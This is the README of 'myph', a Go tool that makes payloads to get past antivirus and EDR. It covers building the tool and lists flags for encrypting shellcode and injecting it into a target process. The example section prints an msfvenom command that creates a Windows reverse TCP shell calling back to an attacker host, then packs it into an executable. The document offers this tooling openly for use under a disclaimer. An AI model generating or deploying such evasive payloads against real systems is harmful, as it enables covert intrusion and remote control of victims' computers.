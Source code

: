 # myph

AV/EDR bypass payload creation tool

## Disclaimer

The access to and the use of the information on this repository is free of charge,
but implies the tacit acceptance by the user of the following conditions, without prejudice to the applicable legal provisions.
The user acknowledges that this repository is intended for informational purposes only and therefore serves only
for general information and testing. The tool and this repository are carefully compiled on the basis of good sources and references.

However, the developers cannot be held liable for for any damage, direct or indirect, of whatever nature as a result of
or related to the access to or use of the software.

## How to use the software ?

> Please note this project is under development & subject to changes. Breaking changes can be introduced from release to release.

### Compiling or Installing the project

You can easily compile like so:
```bash
# if you have make installed
make  # you can also use `make help` to check recipes

# if you don't
go build -o myph .
```

> You can also grab the latest release from [here](https://github.com/CMEPW/myph/releases/)

Finally, you can install from the [golang package repository](https://pkg.go.dev/github.com/CMEPW/myph) like so:
```bash
# /!\ lowercase is important /!\
go install github.com/cmepw/myph@latest
```

### Usage

```bash
Usage:
  myph [flags]

Flags:
  -e, --encryption encKind   encryption method. (allowed: AES, XOR, blowfish) (default AES)
  -h, --help                 help for myph
  -k, --key string           encryption key, auto-generated if empty. (if used by --encryption)
  -f, --out string           output name (default "payload.exe")
  -p, --process string       target process to inject shellcode to (default "cmd.exe")
  -s, --shellcode string     shellcode path (default "msf.raw")
      --sleep-time uint      sleep time before executing loader (default: 0)
  -t, --technique string     shellcode-loading technique (allowed: CRT, CreateThread) (default "CRT")
  -v, --version              version for myph
```

#### Methods

This tool supports few methods for now, but aims to add more as time goes on:
- CreateThread
- CreateRemoteThread

If you don't know what that is about, go check out [this repository](https://github.com/CMEPW/BypassAV) :)~


#### Example

Generate a payload like so:

```bash
# generate your payload
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.2.2 LPORT=1234 -f raw -o msf.raw

# run myph (--shellcode is not mandatory here because we use the default value)
./myph --shellcode msf.raw --out something.exe

# you should find your payload here
file ./something.exe
```

#### Using docker

```bash
# using makefile
make docker

# going through dockerfile directly
docker build . -t myph:latest
```

### Contributing

Contributions are welcome, but please try to keep PRs short and issues descriptive. :)~
A guide on how to use the tool is in the works, please let us know if you're interested in helping out.
